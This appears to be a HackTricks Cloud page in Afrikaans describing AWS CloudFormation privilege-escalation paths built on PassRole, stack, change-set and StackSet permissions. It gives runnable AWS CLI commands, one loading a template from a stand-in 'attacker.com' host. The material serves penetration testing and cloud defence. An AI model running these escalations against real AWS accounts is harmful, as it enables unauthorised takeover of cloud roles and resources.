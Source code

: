 # AWS - Cloudformation Privesc

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## cloudformation

Vir meer inligting oor cloudformation, kyk:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

'n Aanvaller met hierdie toestemmings **kan voorregte eskaleer** deur 'n **CloudFormation-stapel** te skep met 'n aangepaste templaat, gehuisves op hul bediener, om **aksies uit te voer onder die toestemmings van 'n gespesifiseerde rol:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Op die volgende bladsy het jy 'n **uitbuiting voorbeeld** met die bykomende toestemming **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potensiële Impak:** Privesc na die cloudformation-diensrol gespesifiseer.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In hierdie geval kan jy 'n **bestaande cloudformation-stapel misbruik** om dit te opdateer en voorregte te eskaleer soos in die vorige scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming te gee** oor 'n stapel en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation-diensrol wat gespesifiseer is.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Indien jy hierdie toestemming het maar **geen `iam:PassRole`** het nie, kan jy steeds die stappe **opdateer** wat gebruik word en die **IAM-rolle wat hulle reeds geheg het** misbruik. Kyk na die vorige afdeling vir 'n voorbeeld van 'n aanval (moet net nie enige rol in die opdatering aandui nie).

Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming te gee** oor 'n stapel en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation-diensrol wat reeds geheg is.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

'n Aanvaller met toestemmings om 'n rol oor te dra en 'n ChangeSet te skep & uit te voer kan 'n nuwe cloudformation-stapel skep/opdateer en die cloudformation-diensrolle misbruik net soos met die CreateStack of UpdateStack.

Die volgende aanval is 'n **variasie van die** [**CreateStack een**](./#iam-passrole-cloudformation-createstack) wat die **ChangeSet-toestemmings** gebruik om 'n stapel te skep.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `ChangeSet` toestemmings** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na cloudformation-diensrolle.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dit is soos die vorige metode sonder om **IAM-rolle** oor te dra, sodat jy net **reeds aangehegte rolle kan misbruik**, verander net die parameter:
```
--change-set-type UPDATE
```
**Potensiële Impak:** Privesc na die cloudformation-diensrol wat reeds geheg is.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

'n Aanvaller kan hierdie regte misbruik om StackSets te skep/by te werk om willekeurige cloudformation-rolle te misbruik.

**Potensiële Impak:** Privesc na cloudformation-diensrolle.

### `cloudformation:UpdateStackSet`

'n Aanvaller kan hierdie reg misbruik sonder die PassRole-toestemming om StackSets by te werk om die gehegde cloudformation-rolle te misbruik.

**Potensiële Impak:** Privesc na die gehegde cloudformation-rolle.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
